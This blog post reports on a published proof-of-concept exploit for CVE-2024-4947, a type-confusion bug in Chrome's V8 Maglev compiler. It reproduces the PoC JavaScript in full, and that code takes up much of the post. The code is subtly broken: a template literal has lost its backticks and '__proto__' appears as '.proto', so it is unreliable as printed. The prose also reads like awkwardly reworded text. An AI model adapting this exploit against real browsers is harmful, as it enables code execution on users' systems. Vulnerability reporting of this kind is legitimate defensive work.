 ```yaml
---
layout: post
title: PoC Exploit Published for 0-day Vulnerability 
subtitle: Google Chrome
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [Zero-Day]
author: Michel Cornejo
---
```


A proof-of-concept (PoC) exploit for a critical zero-day vulnerability (CVE-2024-4947) in Google Chrome has been made public.

The potential for exploitation of this vulnerability, which impacts the V8 JavaScript engine, has generated considerable apprehension among members of the cybersecurity community.

## Details Of CVE-2024-4947

he CVE-2024-4947 vulnerability arises from erroneous AccessInfo values assigned to module namespace objects within the V8 engine.

This vulnerability may cause type confusion in the Just-In-Time (JIT) compiler Maglev, which V8 utilizes.

Type confusion vulnerabilities manifest when an application declares a variable or object as one type but subsequently manipulates its type, as reported by GitHub. This can potentially result in security breaches and erratic behavior.

## Technical Breakdown

The matter transpires when the V8 engine processes AccessInfo for module namespace objects in an erroneous manner, leading to a misinterpretation of the types of these objects by the Maglev JIT compiler.

An assailant may exploit this misunderstanding to execute arbitrary code within the browser’s context, potentially resulting in a complete compromise of the system.

```javascript
// run with: /d8 --allow-natives-syntax --maglev --expose-gc --soft-abort --trace-deopt 22.mjs

import * as ns from "./22.mjs";

export let c = 0;

function to_fast(o) {
var dummy = {'unique':5};
dummy.proto = o;
dummy.proto = o; //OptimizeAsFastPrototype
}

to_fast(ns);

function store(target, v) {
target.c = v;
}

function createObject() {
let a = {};
a.i1 = 1;
a.i2 = 1;
a.i3 = 1;
a.i4 = 1;
// -----------------
for (let i = 0; i < 8; i++) {
a[p${i}] = 1;
}
return a;
}

function init() {
let a = createObject();
a.proto = ns;
// %DebugPrint(a);
return a;
}

(function() {
%PrepareFunctionForOptimization(store);
store(init(), 0);
%OptimizeMaglevOnNextCall(store);
store(init(), 0);
})();

function confuse_properties_map(arg) {
store(arg, 0x1);
}

let a = init();

let arr = [];

arr.push(1.1);

let arr2 = [{}];

confuse_properties_map(a);

gc();

// %DebugPrint(a);
// %DebugPrint(arr);

a.p5 = 1024;
a.p7 = 1024;

%DebugPrint(arr);

// %SystemBreak();
```
The PoC exploit illustrates how a malevolent actor can exploit this susceptibility to execute arbitrary code.

The methodology entails developing a malevolent webpage that, upon user interaction, activates the type confusion vulnerability in the V8 engine, thereby granting the assailant permission to execute illicit code on the target’s system.


![Exploit](https://michelcyber.s3.amazonaws.com/assets/img/exploit.PNG)


Considering the pervasive utilization of Google Chrome, this susceptibility presents a substantial hazard to users across the globe.

Users must immediately update their browsers to the most recent version whenever a security upgrade is available.

Organizations should also consider implementing additional security measures, such as intrusion detection systems and web application firewalls, to reduce the risk of exploitation.

A proof-of-concept exploit for CVE-2024-4947 has been made public, highlighting the persistent difficulties in securing contemporary web browsers.

Maintaining a state of constant vigilance and proactivity in the face of security threats is critical for both developers and users, as malicious actors persist in discovering and capitalizing on weaknesses in widely utilized software.

